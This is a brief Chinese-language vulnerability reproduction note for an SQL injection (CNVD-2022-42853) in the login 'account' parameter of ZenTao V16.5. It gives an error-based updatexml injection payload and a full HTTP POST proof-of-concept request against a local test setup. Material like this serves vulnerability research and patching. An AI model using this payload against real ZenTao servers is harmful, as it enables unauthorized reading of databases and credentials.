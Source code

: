 # 

# 禅道 V16.5 SQL 注入 CNVD-2022-42853

## 漏洞描述

禅道是一款专业的国产开源研发项目管理软件，集产品管理，项目管理， 质量管理，文档管理，组织管理和事务管理于一体，完整覆盖了研发项目管理的核心流程，管理思想基于国际流行的敏捷项目管理方法-Scrum，在遵循其价值观的基础上，结合国内项目研发的现状，整合了任务管理，需要管理，Bug 管理，用例管理等多种功能，覆盖软件从计划到发布的整个生命周期。

禅道 V16.5 未对输入的 account 参数内容作过滤校验，导致攻击者拼接恶意 SQL 语句执行。

## 环境搭建

下载环境：

```
https://www.zentao.net/dl/zentao/16.5/ZenTaoPMS.16.5.win64.exe
```

## 漏洞复现

报错型注入 Payload：

```
admin' and updatexml(1,concat(0x7e,(user),0x7e),1) and '1'='1  
```

poc：

```
POST /zentao/user-login.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

account=admin%27+and++updatexml%281%2Cconcat%280x1%2Cuser%28%29%29%2C1%29+and+%271%27%3D%271
```
